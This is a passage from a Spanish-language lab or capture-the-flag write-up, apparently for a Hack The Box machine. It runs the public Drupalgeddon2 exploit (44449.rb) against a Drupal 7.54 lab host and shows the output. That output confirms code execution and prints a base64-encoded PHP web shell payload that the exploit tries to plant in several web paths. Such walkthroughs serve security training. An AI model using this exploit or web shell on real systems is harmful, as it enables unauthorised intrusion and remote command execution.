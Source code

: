 En mi caso utilizaré `php/webapps/44449.rb` que explota `Drupalgeddon2`.

## Explotación

Usamos el exploit:

```bash
ruby 44449.rb http://10.10.10.9

[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[i] Target : http://10.10.10.9/
--------------------------------------------------------------------------------
[+] Found  : http://10.10.10.9/CHANGELOG.txt    (HTTP Response: 200)
[+] Drupal!: v7.54
--------------------------------------------------------------------------------
[*] Testing: Form   (user/password)
[+] Result : Form valid
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Clean URLs
[+] Result : Clean URLs enabled
--------------------------------------------------------------------------------
[*] Testing: Code Execution   (Method: name)
[i] Payload: echo VVWNWTOT
[+] Result : VVWNWTOT
[+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
--------------------------------------------------------------------------------
[*] Testing: Existing file   (http://10.10.10.9/shell.php)
[i] Response: HTTP 404 // Size: 12
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Writing To Web Root   (./)
[i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee shell.php
[!] Target is NOT exploitable [2-4] (HTTP Response: 404)...   Might not have write access?
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Existing file   (http://10.10.10.9/sites/default/shell.php)
[i] Response: HTTP 404 // Size: 12
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Writing To Web Root   (sites/default/)
[i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee sites/default/shell.php
[!] Target is NOT exploitable [2-4] (HTTP Response: 404)...   Might not have write access?
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Existing file   (http://10.10.10.9/sites/default/files/shell.php)
[i] Response: HTTP 404 // Size: 12
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Writing To Web Root   (sites/default/files/)
[*] Moving : ./sites/default/files/.htaccess
[i] Payload: mv -f sites/default/files/.htaccess sites/default/files/.htaccess-bak; echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee sites/default/files/shell.php
[!] Target is NOT exploitable [2-4] (HTTP Response: 404)...   Might not have write access?
[!] FAILED : Couldn't find a writeable web path
--------------------------------------------------------------------------------
[*] Dropping back to direct OS commands

drupalgeddon2>> 
```
